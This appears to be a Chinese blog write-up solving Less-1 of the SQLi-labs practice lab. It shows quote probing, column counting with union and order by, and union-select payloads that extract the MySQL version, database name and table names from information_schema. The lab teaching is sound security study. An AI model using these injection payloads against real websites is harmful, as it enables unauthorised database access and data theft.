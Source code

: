 ```yaml
---
title: SQLi-lab 练习解答
categories: Technology
tags:
	- sql injection
---
```


# SQLi-lab 练习解答

Tags: 漏洞分析与总结

## Less-1 
通过
```
id=1'
id="
```
可以看到错误信息的是第二条，所以可以得出id的数据类型是字符型，并且用单引号括起来，像这样
```
select user, passwd from table id='$id'
```
从错误信息
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```
可以知道，一次只返回一行数据，但是返回的列数我们暂时还不知道，通过union测试
```
union 1 --+ 
union 1,2 --+
union 1,2,3 --+
```
> 这里还有一种确定字段数的方法
```
id=1 order by 1
id=1 order by 2
id=1 order by n
```

通过一系列的测试可以知道，在本次sql查询中，每次返回一行三列的数据，联想到union的查询知识
>* union 用于合并两个或多个 select 语句的结果集，并消去表中任何重复行。union 内部的 select 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，每条 select 语句中的列的顺序必须相同。
>* union 默认会去掉重复记录值再合并成结果集，如果需要保留重复的记录值，请使用 union all。
>* union 结果集中的列名总是等于 union 中第一个 select 语句中的列名

上面没有提到，但是可以想到，我们可以将union所连接的前面的查询的数据为空，将union后面的查询数据显现出来
```
null union select 我们想要的结果
```
比如这一题我们可以这么做，通过测试可以知道id>100的话，肯定是没有数据的
```
id=100' union select 1,2,3 --+
```
可以看到结果是
```
Welcome    Dhakkan
Your Login name:2
Your Password:3
```
进一步我们可以这么做了
```
id=100' union select 1, version(), database() --+
id=100' union select 1,(select table_name from information_schema.tables limit 3,1),database() --+
```
